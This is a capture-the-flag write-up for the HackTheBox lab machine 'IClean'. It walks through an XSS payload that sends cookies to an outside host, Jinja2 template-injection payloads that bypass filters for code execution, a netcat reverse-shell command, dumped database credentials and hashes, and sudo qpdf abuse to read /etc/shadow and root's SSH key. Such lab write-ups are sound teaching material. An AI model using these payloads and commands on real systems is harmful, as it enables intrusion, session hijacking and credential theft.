





---
tags:
  - htb
os: Linux
---
# HackTheBox: [IClean](https://app.hackthebox.com/machines/IClean)

> [!tip]- Spoiler Summary
> This Linux box is running a Flask web app with both a XSS vulnerability leading to a SSTI vulnerability, and the latter may be used for RCE. PE is accomplished by using Sudo and `qpdf` to read otherwise protected files, `/root/.ssh/id_rsa` in this case but `/etc/shadow` is another potential vector.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Wed May 29 12:39:14 2024 as: nmap -v -p- -T4 --min-rate 10000 -oN nmap_tcp t
Increasing send delay for 10.10.11.12 from 5 to 10 due to 1366 out of 3414 dropped probes since last increase.
Nmap scan report for t (10.10.11.12)
Host is up (0.095s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

#### 80/tcp-http

```console
$ whatweb http://t
http://t [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.12], Meta-Refresh-Redirect[http://capiclean.htb]
http://capiclean.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[contact@capiclean.htb], HTML5, HTTPServer[Werkzeug/2.3.7 Python/3.10.12], IP[10.10.11.12], JQuery[3.0.0], Python[3.10.12], Script, Title[Capiclean], Werkzeug[2.3.7], X-UA-Compatible[IE=edge]
```

Added `capiclean.htb` to `/etc/hosts`.

I run `feroxbuster` and discover `/dashboard` which redirects to `/`. There's a contact form that sends a POST to `sendMessage`, like so:

```http
POST /sendMessage HTTP/1.1
Host: capiclean.htb
Content-Length: 84
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capiclean.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://capiclean.htb/quote
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
service=Carpet+Cleaning&service=Tile+%26+Grout&service=Office+Cleaning&email=a%40b.c
```

I try `'` and `"` a few other characters that might break the input, with no results. I try to steal cookies using `<script>var i=new Image(); i.src="http://10.10.14.2/?cookie="+btoa(document.cookie);</script>` in each parameter (including `User-Agent`) but nothing comes back.

I'm able to fuzz out a few server errors using an XSS wordlist against the `service` parameter:

```console
$ ffuf -w /usr/share/seclists/Fuzzing/XSS-Fuzzing -request req -request-proto http -fs 5048
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/
       v2.1.0-dev
________________________________________________
 :: Method           : POST
 :: URL              : http://capiclean.htb/sendMessage
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/XSS-Fuzzing
 :: Header           : Cache-Control: max-age=0
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://capiclean.htb/quote
 :: Header           : Accept-Language: en-US,en;q=0.9
 :: Header           : Connection: close
 :: Header           : Host: capiclean.htb
 :: Header           : Origin: http://capiclean.htb
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Data             : service=FUZZ&service=Tile+%26+Grout&service=Office+Cleaning&email=a%40b.c
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 5048
________________________________________________
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 205ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 101ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 252ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 2175ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 358ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 342ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 476ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 334ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 1155ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 552ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 272ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 149ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 162ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 2250ms]
<body onscroll=javascript:alert(1)><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><br><br><br><br><br><br>...<br><br><br><br><input autofocus> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 184ms]
<object id="x" classid="clsid:CB927D12-4FF7-4a9e-A169-56E4B8A75598"></object> <object classid="clsid:02BF25D5-8C17-4B23-BC80-D3488ABDDC6B" onqt_error="javascript:alert(1)" style="behavior:url(#x);"><param name=postdomevents /></object> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 911ms]
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED> [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 497ms]
:: Progress: [3806/3806] :: Job [1/1] :: 35 req/sec :: Duration: [0:01:20] :: Errors: 0 ::
```

This works:

```http
service=&service=Tile+%26+Grout&service=Office+Cleaning&email=a%40b.c
```

```console
10.10.11.12 - - [29/May/2024 13:19:54] code 404, message File not found
10.10.11.12 - - [29/May/2024 13:19:54] "GET /session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zld0lQ.UDMDxwOpm9-B6pghpNQmVMc-y-c HTTP/1.1" 404 -
```

Testing via Burp, I add the cookie to the request headers:

```http
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zld0lQ.UDMDxwOpm9-B6pghpNQmVMc-y-c
```

And it works:



I update the cookie in the Burp browser for easier interactive experimentation:


## RCE

The `/dashboard` page offers more attack surfaces, and two of the pages can be combined to leverage a [template injection vulnerability](https://portswigger.net/web-security/server-side-template-injection).

`http://capiclean.htb/InvoiceGenerator`:


Submitting this gives an invoice number: `Invoice ID generated: 5871399600`

I take the invoice number that was generated and enter it into `http://capiclean.htb/QRGenerator`:



This creates a link to a PNG with a QR code, and the page offers an input box to "generate a Scannable Invoice":



Submitting that creates an invoice like this:



Here's the POST request:

```http
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
Content-Length: 118
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://capiclean.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://capiclean.htb/QRGenerator
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zld0lQ.UDMDxwOpm9-B6pghpNQmVMc-y-c
Connection: close
invoice_id=&form_type=scannable_invoice&qr_link=http%3A%2F%2Fcapiclean.htb%2Fstatic%2Fqr_code%2Fqr_code_5871399600.png
```

The `qr_link` parameter is injectable.

Using these parameters:

```http
invoice_id=&form_type=scannable_invoice&qr_link={{16*16}}
```

I get this result in the HTML:


Injecting `{{config}}` returns this:



I note `SECRET_KEY` is `ynkuukexovaiquxyfwapsbcylzwleydpkhfpfkmmjjamsbkfjfgefhsanqizmduv`, in case that comes in handy later.

I search for some of these config variables, trying to determine the template framework. Flask?

I try `{{ "hax".upper() }}` to see if Python will eval:


But some of the [usual tricks](https://secure-cookie.io/attacks/ssti/) don't seem to work. Trying to access `{{ "hax".__class__ }}` returns `Internal Server Error`.

I confirm the template engine is Flask by injecting `{{ request.application }}`:


Unfortunately, `{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}` returns an internal server error.

PayloadsAllTheThings has a section on [Jinja2 RCE injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---remote-code-execution) (with credit to [SecGus](https://twitter.com/SecGus)) and that is what we need in this scenario.

The request:

```http
invoice_id=&form_type=scannable_invoice&qr_link={{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')() }}
```

Returns the desired response:


Then I'm able to trigger a reverse shell:

```http
invoice_id=&form_type=scannable_invoice&qr_link={{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('busybox%20nc%2010.10.14.2%20443%20-e%20bash')|attr('read')() }}
```

```console
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls -l /home
total 4
drwxr-x--- 4 consuela consuela 4096 Mar  2 07:51 consuela
```

## PE

In `/opt/app/app.py` I find credentials for the database:

```json
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
```

```sql
www-data@iclean:/opt/app$ mysql -u iclean -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 78056
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)
Copyright (c) 2000, 2024, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)
mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)
```

Looking at the code in `app.py` I confirm these hashes aren't salted. CrackStation has an entry:


```console
www-data@iclean:/opt/app$ su - consuela
Password:
consuela@iclean:~$ cat user.txt 
c6a599a...
```

Now, for root.

```console
consuela@iclean:~$ sudo -l
[sudo] password for consuela:
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

<https://qpdf.readthedocs.io> tells us:

> QPDF is a program and C++ library for structural, content-preserving transformations on PDF files.

Looking through all the many, _many_ options for `qpdf`, I see there's an `--add-attachment` option that can probably be leveraged for reading files as root.

```console
consuela@iclean:~$ sudo /usr/bin/qpdf --empty -qdf /dev/stdout --add-attachment /etc/shadow -- |grep ^root\:
root:$y$j9T$s0AIwd7onN6K77K5v8DNN/$bSd333U5BKvkfCPEGdf9dLl3bOYwqOlFNtGZ1FQQuv/:19774:0:99999:7:::
```

The above can be used to read `/root/root.txt`, and on this machine there's also an SSH key for root at `/root/.ssh/id_rsa`. Otherwise it's possible to crack the shadowed password above, although it would be very time-intensive.

## Open Questions

Unresolved issues encountered while attacking this target.

- If there was no `id_rsa` key for root and the shadowed password was uncrackable, how else would I get code execution as root?
